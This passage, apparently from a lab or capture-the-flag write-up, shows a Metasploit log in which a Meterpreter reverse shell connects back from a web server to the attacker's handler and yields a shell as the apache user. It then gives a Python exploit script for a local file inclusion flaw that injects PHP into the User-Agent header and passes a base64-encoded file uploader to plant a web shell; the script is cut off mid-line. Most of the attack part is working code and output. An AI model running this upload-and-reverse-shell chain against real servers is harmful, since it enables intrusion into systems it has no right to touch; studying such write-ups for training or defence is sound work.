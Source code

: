 resource (handler.rc)> set ExitOnSession false
ExitOnSession => false
resource (handler.rc)> exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.201.7:443
msf6 exploit(multi/handler) > [*] Sending stage (39282 bytes) to 192.168.201.3
[*] Meterpreter session 1 opened (192.168.201.7:443 -> 192.168.201.3:34320) at 2021-01-11 14:14:27 -0500
sess
[-] Unknown command: sess.

msf6 exploit(multi/handler) >
msf6 exploit(multi/handler) > sessions -i

Active sessions
===============

  Id  Name  Type                   Information            Connection
  --  ----  ----                   -----------            ----------
  1         meterpreter php/linux  apache (48) @ xenofon  192.168.201.7:443 -> 192.168.201.3:34320 (192.168.201.3)

msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 4454 created.
Channel 0 created.
id
uid=48(apache) gid=48(apache) groups=48(apache)
</pre>


<p style="text-align:justify;">
The following python script can be used in order to exploit the LFI vulnerability. More specifically the script uploads the php uploader on the server and then also uploads the <b>rev.php</b> file. Finally, it opens a <b>multi/handler</b> in order to handle connections. 
</p>


```python
import requests
import random,string
import os
import time 
from requests_toolbelt import MultipartEncoder

target = "192.168.201.3"
PHPSESSID="34944b90c16a24beeef88ff0b73e0691"

burp0_url = "http://"+target+"/listings.php?cmd=PGZvcm0gZ \
W5jdHlwZT0ibXVsdGlwYXJ0L2Zvcm0tZGF0YSIgYWN0aW9uPSJ5b2xvLnBocCIgbWV0aG9kPSJQT1NU \
Ij48aW5wdXQgdHlwZT0iaGlkZGVuIiBuYW1lPSJNQVhfRklMRV9TSVpFIiB2YWx1ZT0iNTEyMDAwIi8 \
%2BIFVwbG9hZCBmaWxlOiA8aW5wdXQgbmFtZT0idXNlcmZpbGUiIHR5cGU9ImZpbGUiIC8%2BPGlucH \
V0IHR5cGU9InN1Ym1pdCIgdmFsdWU9IlNlbmQgRmlsZSIgLz48L2Zvcm0%2BPD9waHAgJHVwbG9hZGZ \
pbGUgPSBiYXNlbmFtZSgkX0ZJTEVTWyd1c2VyZmlsZSddWyduYW1lJ10pO2VjaG8gIjxwPiI7aWYobW \
92ZV91cGxvYWRlZF9maWxlKCRfRklMRVNbJ3VzZXJmaWxlJ11bJ3RtcF9uYW1lJ10sICR1cGxvYWRma \
WxlKSl7ZWNobyAiRmlsZSBpcyB2YWxpZCwgYW5kIHdhcyBzdWNjZXNzZnVsbHkgdXBsb2FkZWQuCiI7 \
fWVsc2Uge2VjaG8gIlVwbG9hZCBmYWlsZWQiO31lY2hvICI8L3A%2BIjtlY2hvICc8cHJlPic7ZWNob \
yAnSGVyZSBpcyBzb21lIG1vcmUgZGVidWdnaW5nIGluZm86JztwcmludF9yKCRfRklMRVMpO3ByaW50 \
ICI8L3ByZT4iOz8%2B"

burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": \
    "<?$com=base64_decode($_GET['cmd']);$file=fopen('./data/yo.php','w'); fwrite($file,$com); \
    fclose($file);phpinfo();?>", "Accept": "text/html,application/xhtml+xml,application/xml; \
        q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange; \
```